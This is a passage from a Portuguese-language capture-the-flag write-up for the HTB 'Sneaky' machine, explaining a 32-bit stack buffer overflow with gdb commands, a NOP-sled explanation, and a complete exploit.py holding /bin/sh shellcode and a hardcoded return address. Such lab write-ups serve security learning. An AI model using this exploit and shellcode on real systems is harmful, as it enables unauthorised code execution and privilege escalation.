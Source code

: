 Jogamos um buffer de 400 bytes na memória, pra conseguirmos vizualizar onde está o EIP

`r $(python -c 'print "A"*400')`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip1.png)

Agora devemos vizualizar o ESP pra ver em qual byte ele está

`x/100 $esp` ou `i r esp`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip2.png)

Puts... calma ai que já confundiu tudo... Eu pesquisei o ESP pra colocar no EIP?! 

Vamos lá, pq eu fiz isso? A ideia do buffer overflow é eu controlar o EIP, certo? O EIP é o endereço do próximo código a ser executado na memória... se eu colocar o ESP lá, ele vai saltar pro ESP, onde eu tenho espaço pra colocar o meu shellcode... hummmmmm, agora entendi, eu vou povoar o EIP com o endereço do ESP, pra qnd ele for executar, vai executar o que estiver no ESP... isso ai! Ta, mas e pra que server os Nops então? A ideia dos Nops é pq a memória é dinâmica, as vezes da bug, se fosse pensar assim eu deveria saber exatamente onde está o inicio do shellcode, ai como tem os nops, ele da um "escorregada" até encontrar o shellcode... Encontrei uma imagem bacana que explica o que está acontecendo.... (https://hausec.com/2018/04/02/simple-buffer-overflows-x32/)

Exatamente isso que vai ocorrer!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sneaky/S_eip3.png)

Certo, vamos então incrementar nosso exploit

exploit.py
```
# Tamanho do buffer

BUFFER_SIZE=362

#ShellCode utilizado

SHELL_CODE = "\x31\xc0\x50\x68\x2f\x2f\x73"
SHELL_CODE += "\x68\x68\x2f\x62\x69\x6e\x89"
SHELL_CODE += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
SHELL_CODE += "\xcd\x80\x31\xc0\x40\xcd\x80"

#Nops

NOP_SLED = "\x90"*(BUFFER_SIZE-len(SHELL_CODE))

# 0xbffff550

EIP = "\x50\xf5\xff\xbf"

PAYLOAD = NOP_SLED + SHELL_CODE + EIP
print PAYLOAD

```
